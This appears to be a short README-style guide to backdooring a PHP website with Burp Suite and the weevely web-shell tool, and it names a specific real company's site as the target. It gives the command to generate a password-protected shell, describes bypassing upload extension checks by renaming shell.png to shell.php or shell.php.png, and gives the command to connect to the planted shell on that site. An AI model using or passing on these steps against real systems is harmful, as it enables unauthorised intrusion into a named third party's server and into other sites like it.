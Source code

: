 # Instruction

With a combination of [Burp Suite](https://portswigger.net/burp) and [weevely](https://www.kali.org/tools/weevely/) you can create a backdoor in a PHP application, such as [OMK's Website](https://omksteel.com/company/contacts/). You need to intercept using [Burp Suite](https://portswigger.net/burp) when the file is being uploaded and change the `filename`, most probably because the application won't allow `.php` extensions directly.

Create the backdoor `weevely generate s3cr3t`

Find an URL to upload a file. The moment when the file is being uploaded, you can intercept the request and change the uploaded file from, for example `shell.png` (if the website allows `.png` files), to `shell.php` which is basically your backdoor.

It might be also not possible to do so, then you can try to upload `shell.php.png`. Some ideas can be found here: https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/File-Upload-test.txt

Then connect to it using `weevely https://omksteel.com/sample/url/shell.php s3cr3t`, where `s3cr3t` is the password you've created when generating the backdoor `shell.php` file using `weevely`, or most probably something more sophisticated, like `weevely https://omksteel.com/sample/url/shell.php.png s3cr3t`.

More reading about file upload: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
